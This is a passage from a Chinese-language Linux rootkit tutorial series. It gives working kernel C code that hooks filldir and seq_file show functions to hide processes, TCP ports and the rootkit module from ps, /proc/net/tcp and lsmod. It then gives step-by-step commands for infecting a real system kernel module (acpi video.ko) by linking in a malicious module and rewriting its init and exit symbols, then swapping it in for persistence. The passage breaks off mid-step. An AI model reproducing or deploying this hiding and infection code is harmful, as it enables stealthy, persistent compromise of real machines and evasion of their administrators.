我们来到了 ``struct file_operations`` 里面的 ``iterate`` ，
这个 ``iterate`` 在不同的文件系统有不同的实现，
下面（位于 ``fs/ext4/dir.c`` ）
是针对 ext4_ 文件系统的 ``struct file_operations`` ，
我们可以看到 ext4_ 文件系统的 ``iterate`` 是 ``ext4_readdir`` 。

.. code-block:: c

   const struct file_operations ext4_dir_operations = {
        .llseek         = ext4_dir_llseek,
        .read       = generic_read_dir,
        .iterate    = ext4_readdir,
        .unlocked_ioctl = ext4_ioctl,
   #ifdef CONFIG_COMPAT
        .compat_ioctl   = ext4_compat_ioctl,
   #endif
        .fsync      = ext4_sync_file,
        .open       = ext4_dir_open,
        .release    = ext4_release_dir,
   };

``ext4_readdir`` 经过各种各样的操作之后会通过 ``filldir``
把目录里的项目一个一个的填到 ``getdents``
返回的缓冲区里，缓冲区里是一个个的 ``struct linux_dirent`` 。
我们的隐藏方法就是在 ``filldir`` 里把需要隐藏的项目给过滤掉。

4. 隐藏进程
+++++++++++

Linux 上纯用户态枚举并获取进程信息， `/proc`_ 是唯一的去处。
所以，对用户态隐藏进程，我们可以隐藏掉 `/proc`_ 下面的目录，
这样用户态能枚举出来进程就在我们的控制下了。
读者现在应该些许体会到为什么文件隐藏是本文的重点内容了。

我们修改一下上面隐藏文件时的假 ``filldir`` 即可实现进程隐藏，
如下所示。

.. code-block:: c

   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       char *endp;
       long pid;

       // 把字符串变成长整数。
       pid = simple_strtol(name, &endp, 10);

       if (pid == SECRET_PROC) {
           // 是我们需要隐藏的进程，直接返回。
           fm_alert("Hiding pid: %ld", pid);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }

实验
****

笔者选择隐藏 pid 1 来做演示。在使用 systemd_ 的系统上，
pid 1 总是 systemd_ ，看下图，
我们可以看到加载我们的模块（ ``pshidko`` ）之后，
``ps -A`` 看不到 systemd_ 了；把 ``pshidko`` 卸载掉，
systemd_ 就显示出来了。

.. image:: images/pshid.png


5. 隐藏端口
+++++++++++

向用户态隐藏端口，
其实就是在用户进程读 `/proc`_ 下面的相关文件获取端口信息时，
把需要隐藏的的端口的内容过滤掉，
使得用户进程读到的内容里面没有我们想隐藏的端口。

具体说来，看下面的表格。

============  ==================  =======================  =================
网络类型      `/proc`_ 文件       内核源码文件             主要实现函数
------------  ------------------  -----------------------  -----------------
TCP_ / IPv4_  ``/proc/net/tcp``   ``net/ipv4/tcp_ipv4.c``  ``tcp4_seq_show``
------------  ------------------  -----------------------  -----------------
TCP_ / IPv6_  ``/proc/net/tcp6``  ``net/ipv6/tcp_ipv6.c``  ``tcp6_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv4_  ``/proc/net/udp``   ``net/ipv4/udp.c``       ``udp4_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv6_  ``/proc/net/udp6``  ``net/ipv6/udp.c``       ``udp6_seq_show``
============  ==================  =======================  =================

本小节以 TCP_ / IPv4_ 为例，其他情况读者可举一反三。

文件的第一行是每一列的含义，
后面的行就是当前网络连接（ socket_ / 套接字）的具体信息。
这些信息是通过 ``seq_file`` 接口在 ``/proc`` 中暴露的。
``seq_file`` 拥有的操作函数如下，我们需要关心是 ``show`` 。

.. code-block:: c

   struct seq_operations {
        void * (*start) (struct seq_file *m, loff_t *pos);
        void (*stop) (struct seq_file *m, void *v);
        void * (*next) (struct seq_file *m, void *v, loff_t *pos);
        int (*show) (struct seq_file *m, void *v);
   };


前面我们提到了隐藏端口也就是在进程读取 ``/proc/net/tcp`` 等文件
获取端口信息时过滤掉不希望让进程看到的内容，具体来讲，
就是将 ``/proc/net/tcp`` 等文件的 ``show``
函数篡改成我们的钩子函数，
然后在我们的假 ``show`` 函数里进行过滤。

我们先看看用来描述 ``seq_file`` 的结构体，即 ``struct seq_file`` ，
定义于 ``linux/seq_file.h`` 。
``seq_file`` 有一个缓冲区，也就是 ``buf`` 成员，
容量是 ``size`` ，已经使用的量是 ``count`` ；
理解了这几个成员的作用就能理解用于过滤端口信息的假
``tcp_seq_show`` 了。

.. code-block:: c

   struct seq_file {
        char *buf; // 缓冲区。
        size_t size; // 缓冲区容量。
        size_t from;
        size_t count; // 缓冲区已经使用的量。
        size_t pad_until;
        loff_t index;
        loff_t read_pos;
        u64 version;
        struct mutex lock;
        const struct seq_operations *op;
        int poll_event;
        const struct file *file;
        void *private;
   };

钩 ``/proc/net/tcp`` 等文件的 ``show``
函数的方法与之前讲隐藏文件钩 ``iterate`` 的方法类似，
用下面的宏可以通用的钩这几个文件 ``seq_file`` 接口里面的操作函数。

.. code-block:: c

   # define set_afinfo_seq_op(op, path, afinfo_struct, new, old)   \
       do {                                                        \
           struct file *filp;                                      \
           afinfo_struct *afinfo;                                  \
                                                                   \
           filp = filp_open(path, O_RDONLY, 0);                    \
           if (IS_ERR(filp)) {                                     \
               fm_alert("Failed to open %s with error %ld.\n",     \
                        path, PTR_ERR(filp));                      \
               old = NULL;                                         \
           }                                                       \
                                                                   \
           afinfo = PDE_DATA(filp->f_path.dentry->d_inode);        \
           old = afinfo->seq_ops.op;                               \
           fm_alert("Setting seq_op->" #op " from %p to %p.",      \
                    old, new);                                     \
           afinfo->seq_ops.op = new;                               \
                                                                   \
           filp_close(filp, 0);                                    \
       } while (0)

最后，我们看看假 ``show`` 函数是如何过滤掉端口信息的。

**注1** ： ``TMPSZ`` 是 150，内核源码里是这样定义的。
换句话说，``/proc/net/tcp``
里的每一条记录都是 149 个字节（不算换行）长，
不够的用空格补齐。

**注2** ： 我们不用 ``TMPSZ`` 也可以，并且会更加灵活，
具体细节请看下面隐藏内核模块时
``/proc/modules`` 的假 ``show`` 函数是怎么处理的。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       char needle[NEEDLE_LEN];

       // 把端口转换成 16 进制，前面带个分号，避免误判。
       // 用来判断这项记录是否需要过滤掉。
       snprintf(needle, NEEDLE_LEN, ":%04X", SECRET_PORT);
       // real_seq_show 会往 buf 里填充一项记录
       ret = real_seq_show(seq, v);

       // 该项记录的起始 = 缓冲区起始 + 已有量 - 每条记录的大小。
       if (strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)) {
           fm_alert("Hiding port %d using needle %s.\n",
                    SECRET_PORT, needle);
           // 记录里包含我们需要隐藏的的端口信息，
           // 把 count 减掉一个记录大小，
           // 相当于把这个记录去除掉了。
           seq->count -= TMPSZ;
       }

       return ret;
   }

实验
****

我们拿 TCP_ / IPv4_ 111 端口来做演示，
读者需要根据实际测试时的环境做必要改动。
如图，加载 ``pthidko`` 之前，我们可以看到 111 端口处于监听状态；
加载之后，这条记录不见了，被隐藏起来；
把 ``pthidko`` 卸载掉，这条记录又显示出来了。

.. image:: images/pthid.png

6. 隐藏内核模块
+++++++++++++++

`《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
一文里提到了隐藏内核模块的两种方式，
一种可以从 ``lsmod`` 中隐藏掉，
另一种可以从 ``/sys/module`` 里隐藏掉。
然而，这两种隐藏方式都使得模块没法卸载了。
在我们开发的初级阶段，这一点也不方便调试，笔者暂时就不讲这两个了。

我们看看另外的思路。从 ``/sys/module`` 里隐藏的话，
我们使用之前隐藏文件的方式隐藏掉就可以了。
我想聪明的读者应该想到了这点，这再一次证明了文件隐藏的意义。

那么怎么从 ``lsmod`` 里隐藏掉呢。
仔细回想一下，既然 ``lsmod`` 的数据来源是 ``/proc/modules`` ，
那用我们隐藏端口时采用的方式就好了：
钩掉 ``/proc/modules`` 的 ``show`` 函数，
在我们的假 ``show`` 函数里过滤掉我们想隐藏的模块。

粗略地浏览内核源码，我们可以发现，
``/proc/modules`` 的实现位于 ``kernel/module.c`` ，
并且主要的实现函数是 ``m_show`` 。

接下来的问题是，
我们怎么钩这个文件 ``seq_file`` 接口里的 ``show`` 函数呢，
钩法与 ``/proc/net/tcp`` 并不一样，但是类似，请看下面的宏。

.. code-block:: c

   # define set_file_seq_op(opname, path, new, old)                    \
       do {                                                            \
           struct file *filp;                                          \
           struct seq_file *seq;                                       \
           struct seq_operations *seq_op;                              \
                                                                       \
           fm_alert("Opening the path: %s.\n", path);                  \
           filp = filp_open(path, O_RDONLY, 0);                        \
           if (IS_ERR(filp)) {                                         \
               fm_alert("Failed to open %s with error %ld.\n",         \
                        path, PTR_ERR(filp));                          \
               old = NULL;                                             \
           } else {                                                    \
               fm_alert("Succeeded in opening: %s\n", path);           \
               seq = (struct seq_file *)filp->private_data;            \
               seq_op = (struct seq_operations *)seq->op;              \
               old = seq_op->opname;                                   \
                                                                       \
               fm_alert("Changing seq_op->"#opname" from %p to %p.\n", \
                        old, new);                                     \
               disable_write_protection();                             \
               seq_op->opname = new;                                   \
               enable_write_protection();                              \
           }                                                           \
       } while (0)

这个宏与之前写的宏非常类似，唯一的不同，
并且读者可能不能理解的是下面这一行。

.. code-block:: c

   seq = (struct seq_file *)filp->private_data;

我想，读者的问题应该是：
``struct file`` 的 ``private_data`` 成员为什么会是我们要找的
``struct seq_file`` 指针？

请看内核源码。下面的片段是 ``/proc/modules`` 的初始部分，
我们想要做的是钩掉 ``m_show`` 。
纵观源码，引用了 ``modules_op`` 的只有 ``seq_open`` 。

.. code-block:: c

   static const struct seq_operations modules_op = {
        .start  = m_start,
        .next   = m_next,
        .stop   = m_stop,
        .show   = m_show
   };

   static int modules_open(struct inode *inode, struct file *file)
   {
        return seq_open(file, &modules_op);
   }

那我们跟进 ``seq_open`` 看看，
seq_open 的实现位于 ``fs/seq_file.c`` 。


.. code-block:: c

   int seq_open(struct file *file, const struct seq_operations *op)
   {
        struct seq_file *p;

        WARN_ON(file->private_data);

        // 分配一个 ``struct seq_file`` 的 内存。
        p = kzalloc(sizeof(*p), GFP_KERNEL);
        if (!p)
            return -ENOMEM;

        // 读者看到这一行应该就能理解了。
        // 对 ``/proc/modules`` 而言，
        // ``struct file`` 的 ``private_data`` 指向的就是
        // 他的 ``struct seq_file``。
        file->private_data = p;

        mutex_init(&p->lock);
        // 把 ``struct seq_file`` 的 ``op`` 成员赋值成 ``op``，
        // 这个 ``op`` 里就包含了我们要钩的 ``m_show`` 。
        p->op = op;

        // 这儿省略若干代码。

        return 0;
   }

这时候，我们可以看看 ``/proc/modules`` 的假 ``show`` 函数了。
过滤逻辑是很容易理解的；
读者应该重点注意一下 ``last_size`` 的计算，
这也就是笔者在讲端口隐藏时说到我们可以不用 TMPSZ ，
我们可以自己计算这一条记录的大小。
自己计算的灵活性就在于，就算每个记录的大小不是同样长的，
我们的代码也能正常工作。

**注** ： ``/proc/modules`` 里的每条记录长度确实不是一样，有长有短。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       size_t last_count, last_size;

       // 保存一份 ``count`` 值，
       // 下面的 ``real_seq_show`` 会往缓冲区里填充一条记录，
       // 添加完成后，seq->count 也会增加。
       last_count = seq->count;
       ret =  real_seq_show(seq, v);

       // 填充记录之后的 count 减去填充之前的 count
       // 就可以得到填充的这条记录的大小了。
       last_size = seq->count - last_count;

       if (strnstr(seq->buf + seq->count - last_size, SECRET_MODULE,
                   last_size)) {
           // 是需要隐藏的模块，
           // 把缓冲区已经使用的量减去这条记录的长度，
           // 也就相当于把这条记录去掉了。
           fm_alert("Hiding module: %s\n", SECRET_MODULE);
           seq->count -= last_size;
       }

       return ret;
   }

实验
****

我们选择隐藏模块自己（ ``kohidko`` ）来做演示。看下图。
加载 ``kohidko`` 之后，
``lsmod`` 没有显示出我们的模块，
``/sys/module`` 下面也列举不到我们的模块；
并且，右侧 ``dmesg`` 的日志也表明我们的假 ``filldir`` 与假 ``show``
函数起了过滤作用。

.. image:: images/kohid.png

第二部分：未来展望
------------------

至此，我们讨论了大部分作为一个 Rootkit 必备的基本功能；
但是，我们的代码依旧是零散的一个一个的实验，而不是一个有机的整体。
当然，笔者的代码尽可能的做好了布局组织与模块化，
这能给我们以后组装的时候节省一些力气。

在接下来的文章里，一方面，
我们会把这些一个一个零散的实验代码组装成一个能进行实验性部署的
Rootkit。要实现这个目标，
除了组装，我们还需要释放程序（ ``Dropper`` ），
还需要增加远程控制（ ``Command & Control`` ）能力。

再者，我们可能会着手讨论 Rootkit 的检测与反检测。
还有就是讨论当前 Linux Rootkit 的实际发展状态，
比如分析已知用于实际攻击的 Rootkit 所采用的技术，
分析我们的技术水平差异，并从中学习如何实现更先进的功能。

最后，我们还可能改善兼容性与拓展性。
我们现在的代码只在比较新的内核版本（比如 4.5.x / 4.6.x）上测试过。
而且，我们压根就没有考虑已知的兼容性问题。
因而，要想在 3.x，甚至 2.x 上跑，
我们还需要花时间兼容不同版本的内核。
然后，我们还希望往其他架构上发展（比如 ARM_ ）。

**下车，走好。**

第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `This is what a root debug backdoor in a Linux kernel looks like <http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/>`_
- `mncoppola/suterusu: An LKM rootkit targeting Linux 2.6/3.x on x86(_64), and ARM <https://github.com/mncoppola/suterusu>`_
- Notification Chains in Linux Kernel `Part 01 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-part-01.html>`_ `Part 02 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-kernel.html>`_ `Part 03 <http://codingfreak.blogspot.com/2012/02/notification-chains-in-linux-kernel.html>`_

2. 延伸阅读
+++++++++++

- `Suterusu Rootkit: Inline Kernel Function Hooking on x86 and ARM <https://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/>`_


.. _IDT: https://en.wikipedia.org/wiki/Interrupt_descriptor_table
.. _Interrupt descriptor table: IDT_
.. _MSR: https://en.wikipedia.org/wiki/Model-specific_register
.. _Model-specific register: MSR_
.. _MSR_LSTAR: http://lxr.free-electrons.com/ident?i=MSR_LSTAR
.. _Inline Hooking: https://en.wikipedia.org/wiki/Hooking#API.2FFunction_Hooking.2FInterception_Using_JMP_Instruction
.. _全志: http://www.allwinnertech.com/
.. _AllWinner: `全志`_
.. _uid: https://en.wikipedia.org/wiki/User_identifier
.. _euid: uid_
.. _/proc: https://en.wikipedia.org/wiki/Procfs
.. _API: https://en.wikipedia.org/wiki/Application_programming_interface
.. _代码仓库: https://github.com/NoviceLive/research-rootkit
.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门: http://www.freebuf.com/news/104270.html
.. _FB: http://www.freebuf.com/
.. _RCE: https://en.wikipedia.org/wiki/Arbitrary_code_execution
.. _LPE: https://en.wikipedia.org/wiki/Privilege_escalation
.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html
.. _ext4: https://en.wikipedia.org/wiki/Ext4
.. _systemd: https://www.freedesktop.org/wiki/Software/systemd/
.. _TCP: https://en.wikipedia.org/wiki/Transmission_Control_Protocol
.. _UDP: https://en.wikipedia.org/wiki/User_Datagram_Protocol
.. _IPv4: https://en.wikipedia.org/wiki/IPv4
.. _IPv6: https://en.wikipedia.org/wiki/IPv6
.. _socket: https://en.wikipedia.org/wiki/Network_socket
.. _ARM: https://www.arm.com/
.. _Kali: https://www.kali.org/


Linux Rootkit 系列五：感染系统关键内核模块实现持久化
====================================================

**最后修改时间** ： **2016-07-21 CST** 。

rectigu@gmail.com, 二〇一六年七月。

**FreeBuf 链接** ： http://www.freebuf.com/articles/system/109034.html 。

前言
----

照旧，本文所需的相关代码位于如下代码仓库：
https://github.com/NoviceLive/research-rootkit。

**测试建议：为了愉快地 Happy Hacking，请不要在物理机玩火。**

概要
----

本文分为两大部分，
第一部分是基于链接与修改符号表感染并劫持
目标内核模块的初始函数与退出函数，使其成为寄生的宿主，
实现隐蔽与持久性。第二部分为结合三个实际例子
（ ``lssec``, ``lssym``, ``setsym`` ）的ELF 文件解析起步，
这一部分提供了我们第一部分进行 Happy Hacking 所需要的工具基础，
``setsym`` ，同时也为更好的理解第一部分提供帮助信息。


第一部分：感染系统关键内核模块实现持久化
----------------------------------------

1. 编译并安装所需的 ELF 文件修改程序
++++++++++++++++++++++++++++++++++++

如果你之前已经 ``git clone`` 过代码仓库，
那么现在就可以简单地 ``git pull`` 来获取最新的改动。


进入 ``lssec.c``, ``lssym.c``, ``setsym.c`` 所在的文件夹，
编译并安装这几个程序。

::

   $ make
   $ sudo make install

这时候，这几个程序就已经安装到 ``/usr/bin`` 目录下了，
可以使用了。

**注 1** ： ``lssec`` 相当于自己造的一个功能不完善的
``readelf -S`` ，
``lssym`` 相当于自己造的一个功能不完善的 ``readelf -s``
或者 ``objdump -t`` 。
因此，只有 ``setsym`` 是必须的，其他两个可以不要。
笔者写 ``lssec`` 与 ``lssym``
是为了在后面讲解 ELF 解析的时候用作起步实例。

**注 2** ：我们会在文章的第二部分拿这几个程序当实际的例子来讲解
ELF 文件的结构与解析。现在，我们直接拿起它们用就好了。

**注 3** ： 这几个程序只支持 64 比特 ELF 文件。
如果你需要支持 32 比特 ELF 文件的工具，除了可以自行修改，
还可以使用参考资料的某篇文章提供的 ``elfchger`` ，
而这个工具只支持 32 比特 ELF 文件。


2. 内核模块函数的重定位与挂钩
+++++++++++++++++++++++++++++

演示用的简单内核模块
********************

我们拿下面的这个简单的内核模块作试验演示。

.. code-block:: c

   int
   noinj_init(void)
   {
       pr_alert("noinj: %s\n", "Greetings the World!");

       return 0;
   }


   void
   noinj_exit(void)
   {
       pr_alert("noinj: %s\n", "Farewell the World!");

       return;
   }


   module_init(noinj_init); // 请注意，这次我们使用了个性化的初始函数名，``noinj_init`` 。
   module_exit(noinj_exit); // 退出函数也是。


   int
   fake_init(void) // 用来演示符号表项挂钩的假初始函数。
   {
       noinj_exit(); // 先调用真的初始函数。

       pr_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

       return 0;
   }


   int
   fake_exit(void) // 用来演示符号表项挂钩的假退出函数。
   {
       noinj_exit(); // 先调用真的退出函数。

       pr_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

       return 0;
   }

编译之后我们可以得到一个 ``noinj.ko`` ，这是一个可重定位文件。
不妨用 ``file`` 查看一下，如下所示。

::

   $ file noinj.ko
   noinj.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=9b497fbb081f193856750e1c2fad93b0c3331edf, not stripped

模块的编译过程与 module_init / module_exit 的分析
*************************************************

生成 ``noinj.ko`` 的大致过程是这样子的：
编译器首先将所有源文件编译成目标文件，
（拿 ``noinj`` 举个例子，就是 ``noinj.c`` -> ``noinj.o`` ），
同时，编译器会自动生成一个源文件，
（在我们的例子中叫 ``noinj.mod.c`` ），
编译之后（即 ``noinj.mod.c`` -> ``noinj.mod.o`` ）
再与已经编译好的目标文件（即 ``noinj.o`` ）链接到一起，
得到一个可重定位文件（即 ``noinj.ko`` ）。

``noinj.mod.c`` 中的内容，
我们主要关心 ``__this_module`` 的定义，如下。

.. code-block:: c

   __visible struct module __this_module
   __attribute__((section(".gnu.linkonce.this_module"))) = { // 将 __this_module 变量放到 .gnu.linkonce.this_module 区间里。
        .name = KBUILD_MODNAME,
        .init = init_module, // 填充初始函数为 init_module
   #ifdef CONFIG_MODULE_UNLOAD
        .exit = cleanup_module, // 填充退出函数为 cleanup_module
   #endif
        .arch = MODULE_ARCH_INIT,
   };

我们在编写内核模块的时候不一定会使用
``init_module`` 与 ``cleanup_module``
作为初始函数与退出函数的名字；而是使用个性化的名字，
比如 ``noinj_init`` 与 ``noinj_exit`` ，
再用 ``module_init`` 与 ``module_exit``
注册我们的个性化命名的函数为初始函数与退出函数。
这时候问题来了， ``module_init`` 与 ``module_exit``
是怎么完成从个性化名字（比如 ``noinj_init`` 与 ``noinj_exit`` ）
到标准名字（即 ``init_module`` 与 ``cleanup_module`` ）的联系呢？
请看源代码，位于 ``linux/module.h`` 。

.. code-block:: c

   /* Each module must use one module_init(). */
   #define module_init(initfn)                  \
        static inline initcall_t __inittest(void)       \
        { return initfn; }                  \
        int init_module(void) __attribute__((alias(#initfn))); // 请看这里，使用 ``GCC`` 编译器的拓展功能，函数别名属性，将个性化名字与标准名字 ``init_module`` 关联起来。

   /* This is only required if you want to be unloadable. */
   #define module_exit(exitfn)                  \
        static inline exitcall_t __exittest(void)       \
        { return exitfn; }                  \
        void cleanup_module(void) __attribute__((alias(#exitfn))); // ``cleanup_module`` 也是。

观察重定位记录与符号表
**********************

下面我们看看这个内核模块的重定位记录： ``readelf -r noinj.ko`` ，
重点看看 ``.gnu.linkonce.this_module`` 的记录，
包含 ``init_module`` 与 ``cleanup_module`` 符号。

::

   Relocation section '.rela.gnu.linkonce.this_module' at offset 0x1aa88 contains 2 entries:
     Offset          Info           Type           Sym. Value    Sym. Name + Addend
   000000000158  001c00000001 R_X86_64_64       0000000000000000 init_module + 0
   0000000002f8  001a00000001 R_X86_64_64       0000000000000020 cleanup_module + 0

请结合符号表（ ``readelf -s noinj.ko`` ）来看。

::

   $ readelf -s noinj.ko
   Symbol table '.symtab' contains 34 entries:
      Num:    Value          Size Type    Bind   Vis      Ndx Name
        0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
        // 这儿省略一部分。
       25: 0000000000000000   832 OBJECT  GLOBAL DEFAULT   11 __this_module
       26: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 cleanup_module // 真的退出函数的记录，名字是 cleanup_module，Value 是 0x20。
       27: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND __fentry__
       28: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 init_module // 真的初始函数的记录，名字是 init_module， Value 是 0x00。
       29: 0000000000000040    46 FUNC    GLOBAL DEFAULT    2 fake_init // 假的初始函数的记录，Value 是 0x40。
       30: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 noinj_init // 真的初始函数的记录，名字是 noinj_init， 但 Value 是 0x00，与 init_module 一样。
       31: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 noinj_exit // 真的退出函数的记录，名字是 noinj_exit， 但 Value 是 0x20，与 cleanup_module 一样。
       32: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND printk
       33: 0000000000000070    46 FUNC    GLOBAL DEFAULT    2 fake_exit // 假的初始函数的记录，Value 是 0x70。


如果我们将 ``init_module`` 符号的值，改成 ``fake_init`` 符号的值，
那么在模块加载进行符号解析、重定位的时候，
``init_module`` 会解析、定位到 ``fake_init`` ，
从而导致我们的假初始函数被执行，
而真的初始函数不会执行（当然，
因为我们假初始函数会调用真的初始函数，所以真的初始函数也会执行，
但是这已经是在我们的掌控之下了）。

``cleanup_module`` 类似。下面我们通过实验来演示这一点。

实验演示符号表项的劫持
**********************

``setsym`` 的用法是这样子的，有两种：一，传递两个位置参数，
第一个是内核模块路径，第二个是符号名，
这时 ``setsym`` 会把这个符号的值打印出来；二，传递三个位置参数，
第一个是内核模块路径，第二个是符号名，第三个是值，
这时 ``setsym`` 会把这个符号的值修改成给定的值。
简言之，如下。

::

   // 第一种用法，获取符号的值。
   setsym <module_path> <symbol_name>

   // 第二种用法，设置符号的值。
   setsym <module_path> <symbol_name> <symbol_value>

实验操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建模块。
   $ make

   // 复制一份副本用于对照演示。
   $ cp noinj.ko infected.ko

   // 将副本的 init_module 符号值改成 fake_init 符号值。
   $ setsym infected.ko init_module $(setsym infected.ko fake_init)

   // 将副本的 cleanup_module 符号值改成 fake_exit 符号值。
   $ setsym infected.ko cleanup_module $(setsym infected.ko fake_exit)
   // 加载原始的模块。
   $ insmod noinj.ko

   // 卸载载原始的模块。
   $ rmmod noinj

   // 加载修改过的副本。
   $ insmod infected.ko

   // 卸载修改过的副本。
   $ rmmod noinj // 注意模块名要用宿主的，即 noinj

正常情况下，系统应该调用真的初始函数，
而假的初始函数根本没有执行的机会，因为没人调用了它。

但是对比原本与副本加载、卸载过程中 ``dmesg`` 打印出来的消息，
可以得知，副本里的真初始函数是被假初始函数调用的，
而假初始函数则是被系统调用的。
也就是说，完成了对初始函数的劫持 / 挂钩。

效果如下图所示。

.. image:: images/noinj.png


3. 感染一个示例内核模块
+++++++++++++++++++++++

在上一小节，我们演示了将初始函数与退出函数劫持成
同一个模块里的另一个函数，
现在我们看看怎样把一个良民模块的初始函数与退出函数
劫持成另一个恶意模块的初始函数与退出函数。
此外，恶意模块的代码也要注入到良民模块里，
这样，恶意模块才能起作用。

修改 fshid 使其便于寄生
***********************

这次我们用的良民模块跟上面那个 ``noinj`` 没什么本质差别，
换了下名字来彰显代码注入这个话题，所以叫 ``codeinj`` 。

恶意模块的话，就用 `笔者的上一篇文章`_ 里的 ``fshid`` ；
注意，我们需要对 ``fshid`` 作一些必要的改动。
一来，要把初始函数从 ``init_module`` 改成 ``fshid_init`` ，
``cleanup_module`` 也类似改成 ``fshid_exit`` ；
这是为了避免与良民模块出现名字冲突。
二来，我们要在 ``fshid_init`` 里调用良民模块（即 ``codeinj`` ）
的初始函数（即 ``codeinj_init`` ），
类似地， ``fshid_exit`` 里调用 ``codeinj_exit`` ；
这是为了让我们的挂钩对宿主模块（即良民模块）的功能不产生影响，
使别人观察不到我们的恶意模块的存在。

将 fshid 感染到示例模块中
*************************

具体操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建已经修改好适合寄生的恶意模块。
   $ (cd fshid && make --quiet)

   // 构建良民模块（即宿主模块）。
   $ make --quiet

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r codeinj.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 加载被寄生了的宿主。
   $ insmod infected.ko

   // 测试看看那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod codeinj // 注意模块名要用宿主的，即 codeinj

   // 再测试看看那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果
********

结果如图。

.. image:: images/codeinj.png

4. 感染系统中的内核模块
+++++++++++++++++++++++

现在，我们开始做点正事，感染系统关键内核模块搭顺风车实现隐蔽持久化。

确定目标并采集必要信息
**********************

在系统启动的时候，有一些内核模块会自动加载，
Rootkit 的内核模块可以寄生到这些模块上，实现实现隐蔽持久。

通过 ``lsmod`` 随意找个没被使用的模块，笔者就拿 ``video`` 动手了，
并在滚到最新的 Kali （ ``4.6.0-kali1-amd64`` ）上实践，
读者需要根据自己动手的环境进行一些必要的调整。

先找到它的文件。
尝试在 ``/lib/modules/$(uname -r)`` 目录下面查找一下，
``find /lib/modules/$(uname -r) -name video`` 。结果如下。

::

   $ find /lib/modules/$(uname -r) -name video.ko
   /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

接下来尝试判断目标模块的初始函数与退出函数的个性名字。
笔者顺手找到了 ``video`` 模块的源代码，
位于内核源码（笔者手里的版本是 4.6.2）树的
``drivers/acpi/acpi_video.c`` 。
摘取关键片段如下，我们可以看到 ``video`` 模块的初始函数与退出函数是
``acpi_video_init`` 与 ``acpi_video_exit`` 。

::

   module_init(acpi_video_init);
   module_exit(acpi_video_exit);

将 fshid 感染到系统模块中
*************************

一切准备就绪，开始行动。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 复制目标模块到实验的当前目录。
   $ cp /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko .

   // 检查一下我们对初始函数与退出函数的判断是否正确。
   $ readelf -s video.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 把它的初始函数与退出函数的绑定改成 global 。
   // 后面会解释一下这一步的必要性。
   $ objcopy video.ko gvideo.ko --globalize-symbol acpi_video_init --globalize-symbol acpi_video_exit

   // 检查一下 objcopy 是否成功。
   $ readelf -s gvideo.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 构建已经修改好适合寄生的恶意模块。
   // 后面还会解释一下要怎么修改。
   $ (cd fshid && make --quiet)

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r gvideo.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 卸载系统本来就加载了的 video 模块。
   $ rmmod video

   // 加载寄生了恶意模块的 video 的模块。
   // 观察 dmesg 的输出。
   $ insmod infected.ko

   // 测试隐藏的那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod video // 注意模块名要用宿主的，即 video

   // 再测试隐藏的那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果与重启测试
******************

测试效果截图如下。

.. image:: images/video.png

如果测试正常，那么我们可以用被感染的模块替换掉原来的那个健康的模块了。

::

   // 备份健康的 video 模块。
   $ mv /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko.bak
   // 把被感染的 video 模块复制到原来健康模块的位置。
